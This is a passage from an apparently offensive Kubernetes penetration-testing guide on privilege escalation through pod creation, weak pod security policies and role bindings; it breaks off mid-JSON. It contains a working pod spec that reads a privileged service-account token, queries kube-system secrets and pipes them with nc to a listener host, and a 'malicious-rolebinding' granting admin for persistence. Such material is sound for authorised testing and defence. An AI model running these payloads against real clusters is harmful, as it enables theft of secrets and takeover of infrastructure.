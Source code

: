 Note - it's also worth checking pod specs, configmaps and secrets for other sensitive information such as SSH keys, OAuth tokens, credentials and URLS for other services may also be stored within kubernetes secrets.

### 1.4.2. Create Pods/Deployments/Daemonsets
If you have permission to create pods (directly or via deployments and daemonsets etc) you can attempt to create a pod and mount a privileged service account to the pod either sending the token or capturing a reverse shell to escalate privileges.

An example podSpec mounting the privileged `bootstrap-signer` service account:
```
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: alpine
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
  hostNetwork: true
```
### 1.4.3. Weak PSPs / Security Controls
If there are permissive PSPs (or other policy controls) or you have sufficient privileges you may be able to create a pod that mounts a vulnerable hostpath or assigns extra linux capabilties in order to perform a container breakout or escalate privileges.

If they are using a custom security/admission controler such as OPA/Gatekeeper you may be able to gain access to the policies (via discovering authentication tokens or misconfigured authentication) to create permissive policies to deploy vulnerable pods

If you are able to deploy a daemonset you will get a copy of the pod on each node (you may have to specify taints and tolerations to get it on certain nodes - https://kubernetes.io/docs/concepts/scheduling-eviction/taint-and-toleration/) if you're able to deploy a vulnerable pod and breakout, each node may have different privileges - if you are able to breakout onto a master node or access etcd you will have full access to the cluster.

### 1.4.4. Create Roles/Bindings
If you have the permission to create rolebindings you can assign extra permissions to yourself or entities under your control. You can also create new roles for persistence.
Example clusterrolebinding for getting cluster-admin
```
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "RoleBinding",
    "metadata": {
        "name": "malicious-rolebinding",
        "namespaces": "default"
    },
    "roleRef": {
        "apiGroup": "*",
        "kind": "ClusterRole",
        "name": "admin"
    },
    "subjects": [
        {
            "kind": "ServiceAccount",
```